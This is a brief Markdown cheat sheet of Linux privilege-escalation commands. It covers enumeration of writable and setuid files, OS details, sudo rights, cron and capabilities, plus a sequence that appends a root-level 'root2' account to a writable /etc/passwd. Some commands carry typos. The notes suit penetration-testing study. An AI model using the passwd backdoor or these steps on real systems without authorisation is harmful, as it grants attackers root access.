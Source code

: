 #Linux PrivEsc
## Find interesting files
`find / -writable -type f 2>/dev/null`  #Writable files\
`find / -writable -type d 2>/dev/null` #Writable directories\
`find / -perm -u=s -type f 2>/dev/null` #Setuid executables

## Passwd file writable?
`s -al /var/etc/passwd`\
`lopenssl passwd w00t`\
`echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd`\
`su root2`

## OS information --> kernel exploit?
`hostname`\
`cat /etc/issue`\
`cat /etc/os-release`\
`uname -a`

## Envirionment variables
`env`

## Sudo privileges
`sudo -l`

## Running services
`ps -aux` (evt met watch)

## Cron
`grep "CRON"  /var/log/syslog`

## Possible overprived services/applications
`/usr/sbin/getcap -r / 2>/dev/null`

